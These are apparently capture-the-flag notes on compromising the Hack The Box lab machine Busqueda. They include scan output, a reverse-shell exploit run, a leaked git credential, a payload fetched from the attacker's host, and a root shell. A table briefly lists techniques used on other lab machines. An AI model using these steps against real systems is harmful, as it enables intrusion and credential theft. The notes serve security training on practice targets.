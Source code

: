
## Busqueda 

1. Rustscan and Nmap
```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

nmap -p$(cat busqueda-open-ports.txt | cut -f1 -d '/' | tr '\n' ',') -T4 -A 10.10.11.208
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-06 23:14 EST
Nmap scan report for searcher.htb (10.10.11.208)
Host is up (0.13s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_  256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Searcher
| http-server-header: 
|   Apache/2.4.52 (Ubuntu)
|_  Werkzeug/2.1.2 Python/3.10.6
```

2. Searcher 2.4.0 exploit
```
┌──(kali㉿kali)-[~/OSCP/htb]
└─$ ./exploit.sh searcher.htb 10.10.16.5 8888
---[Reverse Shell Exploit for Searchor <= 2.4.2 (2.4.0)]---
[*] Input target is searcher.htb
[*] Input attacker is 10.10.16.5:8888
[*] Run the Reverse Shell... Press Ctrl+C after successful connection

┌──(kali㉿kali)-[~/OSCP/htb]
└─$ nc -lvnp 8888
svc@busqueda:/dev/shm$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
svc@busqueda:/dev/shm$ 
```

3. Found cody git credentials
```
svc@busqueda:/var/www/app/.git$ cat config
cat config
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[remote "origin"]
        url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
        fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
        remote = origin
        merge = refs/heads/main
```

4. Found git administrator credentials and use it login and found script which require file to be full-checkup.sh . 

5. Created reverse shell and execute. 
```
svc@busqueda:/dev/shm$ wget http://10.10.16.5/full-checkup.sh
wget http://10.10.16.5/full-checkup.sh
--2024-03-07 06:55:17--  http://10.10.16.5/full-checkup.sh
Connecting to 10.10.16.5:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 59 [text/x-sh]
Saving to: ‘full-checkup.sh’

     0K                                                       100% 6.25M=0s

2024-03-07 06:55:17 (6.25 MB/s) - ‘full-checkup.sh’ saved [59/59]

svc@busqueda:/dev/shm$ chmod 777 full-checkup.sh
chmod 777 full-checkup.sh
svc@busqueda:/dev/shm$ 
```

6. Obtained root as reverse shell and flag. 
```
┌──(kali㉿kali)-[~/OSCP/htb/CVE-2022-0847-DirtyPipe-Exploits]
└─$ nc -nvlp 8889                  
listening on [any] 8889 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.208] 33142
root@busqueda:/dev/shm# cd 
cd 
root@busqueda:~# ls
ls
ecosystem.config.js
root.txt
scripts
snap
root@busqueda:~# cat root.txt
cat root.txt
d64451a40ec5b932753239254ed83491
```


| Machine Names | Exploitation way                                                                                                                                                                                                                                                                                                                                                                |
| ------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Lame          | NA                                                                                                                                                                                                                                                                                                                                                                              |
| Nibbles       | 1. nibbleblog sub-directory, <br>2. found version 4.0.3 at /nibbleblog/admin/boot/rules/98-constants.bit, <br>3. from trial and error methods found defautl pass 'admin:nibbles', <br>4. logged in and upload php cmd reverse image file with GIF8; header, <br>5. rm f reverse shell give foothold, <br>6. use monitor.sh for root or rationalove kernel exploit.              |
| Solidstate    | 1. Full nmap scan, port 4555 give foothold , <br>2. use nc listener on that port and ip, <br>3. set new password for the user mindy, <br>4. use thunderbird to get welcome email and password, <br>5. ssh login with mendy password, found corn file /opt/tmp.py, <br>6. give SUID permission to dash, helps to privesc.<br>Another way to foothold: james server 2.3.2 exploit |
| Poison        | Port 80 web page,found pwdbackup.txt, 13 time base 64 give password, port forward, rooted with remote code execution                                                                                                                                                                                                                                                            |
| Knife         | Port 80 web page, php 8.1.0-dev remote code execution, knife SUID                                                                                                                                                                                                                                                                                                               |
| Sunday        |                                                                                                                                                                                                                                                                                                                                                                                 |
| Keeper        |                                                                                                                                                                                                                                                                                                                                                                                 |
| Pilgrimage    |                                                                                                                                                                                                                                                                                                                                                                                 |
| Cozyhosting   |                                                                                                                                                                                                                                                                                                                                                                                 |
| Codify        |                                                                                                                                                                                                                                                                                                                                                                                 |
| Tartarsacue   |                                                                                                                                                                                                                                                                                                                                                                                 |
| Jarvis        |                                                                                                                                                                                                                                                                                                                                                                                 |
| Tabby         |                                                                                                                                                                                                                                                                                                                                                                                 |
| Falafel       |                                                                                                                                                                                                                                                                                                                                                                                 |
| Mentor        |                                                                                                                                                                                                                                                                                                                                                                                 |
| Deevvortex    |                                                                                                                                                                                                                                                                                                                                                                                 |
| lrked         |                                                                                                                                                                                                                                                                                                                                                                                 |
| popcorn       |                                                                                                                                                                                                                                                                                                                                                                                 |
| Borker        |                                                                                                                                                                                                                                                                                                                                                                                 |
| Analytics     |                                                                                                                                                                                                                                                                                                                                                                                 |
| Networed      |                                                                                                                                                                                                                                                                                                                                                                                 |
| Updown        | Very hard and difficult. Need to figure out code execution and check disabled php functions and figure out it.                                                                                                                                                                                                                                                                  |
| Swagshop      |                                                                                                                                                                                                                                                                                                                                                                                 |
| Nineveh       |                                                                                                                                                                                                                                                                                                                                                                                 |
| Pandora       |                                                                                                                                                                                                                                                                                                                                                                                 |
| OpenAdmin     |                                                                                                                                                                                                                                                                                                                                                                                 |
| Precious      |                                                                                                                                                                                                                                                                                                                                                                                 |
| Busqueda      |                                                                                                                                                                                                                                                                                                                                                                                 |
| Monitored     |                                                                                                                                                                                                                                                                                                                                                                                 |
| Sau           |                                                                                                                                                                                                                                                                                                                                                                                 |
| Broker        |                                                                                                                                                                                                                                                                                                                                                                                 |
| Intentions    |                                                                                                                                                                                                                                                                                                                                                                                 |
| Monitored     |                                                                                                                                                                                                                                                                                                                                                                                 |
| Soccer        |                                                                                                                                                                                                                                                                                                                                                                                 |



